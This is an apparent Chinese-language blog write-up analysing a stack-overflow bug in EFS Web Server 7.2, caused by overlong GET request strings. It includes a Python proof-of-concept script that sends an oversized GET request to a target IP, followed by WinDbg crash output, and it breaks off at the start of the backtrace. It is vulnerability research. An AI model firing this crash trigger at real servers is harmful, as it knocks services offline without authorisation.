 ```yaml
---
title: EFS Web Server 7.2漏洞分析
date: 2017-12-03 15:45:00
tags: []
categories: "二进制漏洞分析"
---
```

# EFS Web Server 7.2漏洞分析

## 简介
EFS Web Server是一款web服务器软件，能快速的搭建web服务。它在接受GET请求时，由于没有有效的控制请求字符串的长度导致栈溢出。
***
## 分析环境
```
OS:                 Microsoft Windows 10 64bit 专业版
Software:           EFS Web Server 7.2
winDbg:             6.12.2.633
IDAPro:             6.8 绿色版
python:             python 2.7

```
***
## 漏洞分析
编写如下的脚本用作poc
```python
# coding=utf-8
# fileName: poc.py
# usage: python poc.py ip payloadNums

import socket
import sys

RHOST = sys.argv[1]
RPORT = 80
payload = '\x41'*int(sys.argv[2])

s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect((RHOST,RPORT))
s.send('GET '+payload+' HTTP/1.0\r\n\r\n')
s.close()
print 'done.'
```
打开EFS，用windbg附加到该进程，然后执行poc，windbg遇到异常被断下
```
(9f0.4220): Access violation - code c0000005 (first chance)
First chance exceptions are reported before any exception handling.
This exception may be expected and handled.
eax=41414141 ebx=00000001 ecx=ffffffff edx=00b65fa4 esi=00b65f7c edi=00b65fa4
eip=61c277f6 esp=00b65ef8 ebp=00b65f10 iopl=0         nv up ei pl nz na pe nc
cs=0023  ss=002b  ds=002b  es=002b  fs=0053  gs=002b             efl=00010206
*** ERROR: Symbol file could not be found.  Defaulted to export symbols for C:\Users\gyh\Desktop\1\sqlite3.dll - 
sqlite3!sqlite3_errcode+0x8e:
61c277f6 81784c97a629a0  cmp     dword ptr [eax+4Ch],0A029A697h ds:002b:4141418d=????????

```
这里是因为eax+4ch处的内存没有开辟出来导致内存访问异常，而且eax=41414141这是畸形字符串的值，说明传入的payload已经覆盖了eax，下面进行堆栈回溯找到上层的函数调用去分析漏洞是如何触发的
```
```